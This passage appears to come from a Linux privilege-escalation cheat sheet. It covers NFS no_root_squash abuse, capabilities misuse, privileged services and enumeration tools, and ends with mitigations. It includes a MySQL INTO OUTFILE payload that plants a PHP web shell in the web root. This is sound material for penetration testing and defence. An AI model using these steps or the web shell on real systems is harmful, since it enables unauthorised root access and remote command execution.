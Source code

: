 **Usage:**
- Check NFS exports: `showmount -e target_ip`
- If `no_root_squash` is set, create a file with SUID bit on the share and execute it on the server.

#### **Exploiting Running Services**
Services running with elevated privileges may have vulnerabilities that can be exploited.

**Usage:**
- Identify services: `netstat -tuln`
- Check for known vulnerabilities in these services and exploit accordingly.

#### Tools for Privilege Escalation
- **LinPEAS:** Automated script for Linux privilege escalation enumeration.
- **GTFOBins:** Repository of Unix binaries that can be exploited by attackers.
- **Linux Exploit Suggester:** Suggests possible exploits based on kernel version.
- **pspy:** Monitors processes without requiring root permissions.

#### Mitigation Strategies
- Regularly update and patch systems.
- Audit SUID/SGID files and remove unnecessary ones.
- Restrict sudo permissions to essential commands.
- Secure cron jobs and scripts with proper permissions.
- Monitor and log user activities.
- Implement the principle of least privilege.

#### Capabilities Abuse (Linux Capabilities)
Linux capabilities allow binaries to perform privileged operations without needing full root access. However, improper capabilities assignment can be dangerous.

- **Check capabilities**: ``getcap -r / 2>/dev/null``
- **Common misconfigurations**:
```
# Allows network packet sniffing
/usr/bin/tcpdump = cap_net_raw+eip
```
- **Exploitation**:  If a binary has capabilities like `cap_setuid`, you can modify your UID mid-execution to escalate privileges.

#### Abusing NFS (Network File System) Shares

NFS shares may allow root-squash misconfigurations or allow execution with root privileges.
- **Mount NFS share**: `mount -o rw nfs-server:/share /mnt`
- **Exploit:** Create a binary as root on the share, then execute it from a system that doesn’t squash root.

#### Exploiting Misconfigured Services

##### a. **MySQL to Root**
If MySQL runs as root and allows local file writes:
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
Then access `shell.php` from the browser with a command injection payload.
